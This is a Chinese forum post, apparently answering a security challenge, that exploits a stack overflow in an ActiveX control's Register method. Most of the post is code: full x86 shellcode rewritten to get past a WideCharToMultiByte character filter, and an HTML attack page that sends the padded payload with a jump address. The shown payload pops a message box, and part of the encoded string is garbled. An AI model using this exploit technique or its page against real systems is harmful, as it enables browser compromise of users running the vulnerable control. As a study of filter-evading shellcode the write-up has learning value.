> 
>   我真的很纳闷,其他函数在复制数据的时候,都会先在栈上 new 出一片空间,使其最多堆栈溢出而没有什么利用价值,这个函数倒好,直接来一个长度为 256 的数组,其他什么也不检查...安逸了这个程序员,舒服了大家.  
>   
> 这个 shellcode 比上一个稍微难一点,它有一个过滤器(WideCharToMultiByte)会将不认识的字符集转换成 3F,这对 shellcode 是一个考验,我参考了几篇文章,决定写一个译码器来 fk(反抗)它,后来发现,留给我的空间写 shellcode 太有限了,because 这个函数的第一个参数是一个 COMPTR,我不管它是什么指针了,反正这个指针错了就过不了关(参考这个函数最后一个子函数的代码),所以,只能自己手动编写尽量短的 shellcode 了.  
>   
> 这个题我仍然用 failwest 的 shellcode,把一些不能转换的 code 变形一下,look:  
>   
> 代码:
> 
> ```
> void \_\_declspec(naked) shellfunc()
> {
>   \_asm
>   {
>              push    0x1E380A6A
>              push    0x4FD18963
>              //push    0x0C917432
>              mov     ax, 0x0B41
>              add     ax, 0x150
>              push    ax
>              mov     ax, 0x0B41
>              add     ax, 0x68F1
>              push    ax
>              //mov     esi, esp
>              push    esp
>              pop    esi
>              lea     edi, dword ptr \[esi-0xC\]
>              nop
>              //xor     ebx, ebx
>              //mov     bh, 4
>              //sub     esp, ebx
>              xor       eax,eax
>              mov    ah,4
>              sub    esp,eax
>              //mov     bx, 0x3233
>              //push    ebx
>              mov     ax, 0x0B41
>              add     ax, 0x0B41
>              add     ax, 0x0B41
>              add     ax, 0x1070
>              push    eax
> 
>              push    0x72657375
>              push    esp
>              xor     edx, edx
>              mov     ebx, dword ptr fs:\[edx+0x30\]
>              mov     ecx, dword ptr \[ebx+0xC\]
>              mov     ecx, dword ptr \[ecx+0x1C\]
>              //mov     ecx, dword ptr \[ecx\]
>              push    dword ptr \[ecx\]
>              pop     ecx
> 
>              mov     ebp, dword ptr \[ecx+0x8\]
> L018:
>              //lods    dword ptr \[esi\]
>              push    dword ptr \[esi\]
>              pop     eax
>              nop
>              inc     esi
>              inc     esi
>              inc     esi
>              inc     esi
> 
>              cmp     eax, 0x1E380A6A
>              jnz L024
>              //xchg    eax, ebp
>              push    ebp
>              push    eax
>              pop     ebp
>              pop     eax
> 
>              call    dword ptr \[edi-0x8\]
>              xchg    eax, ebp
> L024:
>              pushad
>              mov     eax, dword ptr \[ebp+0x3C\]
>              mov     ecx, dword ptr \[ebp+eax+0x78\]
>              add     ecx, ebp
>              mov     ebx, dword ptr \[ecx+0x20\]
>              //add     ebx, ebp
>              push    ebx
>              add     dword ptr \[esp\], ebp
>              pop     ebx
> 
>              xor     edi, edi
> L031:
>              inc     edi
>              nop
>              //mov     esi, dword ptr \[ebx+edi\*4\]
>              push    eax
>              mov     eax, edi
>              xor     edx, edx
>              mov     dl, 4
>              mul     edx
>              push    eax
>              add     dword ptr \[esp\], ebx
>              pop     esi
>              push    dword ptr \[esi\]
>              pop     esi
>              pop     eax
> 
>              add     esi, ebp
>              cdq
> L035:
>              //movsx   eax, byte ptr \[esi\]
>              xor     eax, eax
>              mov     al, byte ptr \[esi\]
> 
>              cmp     al, ah
>              je L042
>              ror     edx, 7
>              add     edx, eax
>              inc     esi
>              jmp L035
> L042:
>              cmp     edx, dword ptr \[esp+0x1C\]
>              jnz L031
>              mov     ebx, dword ptr \[ecx+0x24\]
>              add     ebx, ebp
>              //mov     di, word ptr \[ebx+edi\*2\]
>              push    word ptr \[ebx+edi\*2\]
>              pop     di
> 
>              mov     ebx, dword ptr \[ecx+0x1C\]
>              //add     ebx, ebp
>              push    ebx
>              add     dword ptr \[esp\], ebp
>              pop     ebx
> 
>              add     ebp, dword ptr \[ebx+edi\*4\]
>              xchg    eax, ebp
>              pop     edi
>              stos    dword ptr es:\[edi\]
>              push    edi
>              popad
>              cmp     eax, 0x1E380A6A
>              jnz L018
>              nop
>              xor     ebx, ebx
>              push    ebx
>              push    0x0A6F686F
>              push    0x68677562
>              mov     eax, esp
>              push    ebx
>              push    eax
>              push    eax
>              push    ebx
>              call    dword ptr \[edi-4\]
>              push    ebx
>              call    dword ptr \[edi-8\]
>   }
> }
>   
> ```
> 
>   被注掉的代码是有问题的指令,注掉的代码下面几行是修改过的指令.  
>   
> 关于跳板(我用 jmp edx),这个里面的跳板很麻烦,因为要保证这个值被转换了也能用.不过还好有一个非常爽的地址,叫"阎襴",大家有兴趣的话去试试   
>   
> 下面是我的攻击页面:  
>   
> 代码:
> 
> ```
> <!—using ActiveX in html-->
> <html>
> <meta http-equiv="Content-Type" content="text/html; charset=gb2312"/>
> <object id=target classid=clsid:7F5E27CE-4A5C-11D3-9232-0000B48A05B2></object>
> <body> 
> <SCRIPT language="javascript"> 
> var buffer = unescape("%u0068j
> 8hc 壯 Of 窤 fPfPf 窤 f 駂 fPT^崀魫 3 来+鄁窤 fAfAfpPhuserT3 襠媄 0 婯婭�1Y 媔�6X 怓 FFF=j
> 8uUP\]X�W 鴷\`婨<婰 x 蛬 Y S,$\3�G 怭嬊 3 也麾 P$^�6^X 鯔 3 缞:膖潦蠪腽;T$u 計 Y$輋�4{f\_ 媃 S,$\[,粫\_ 玏 a=j
> 8u 啇 3 跾 hoho
> hbugh 嬆 SPPS�W 黃�W烫烫烫蘒嬱侅");
> while (buffer.length < 0xD7) buffer +='A';
> buffer += '阎襴';
> target.Register('bughoho',buffer);
> </script>
> </body>
> </html>
>   
> ```
> 
>   最后来一张效果图  
>   
>   
>   
> OK,这就是我的两个题的答案,欢迎大家拍砖.

 4dd466d0e1e0cc123afbe504da2462ca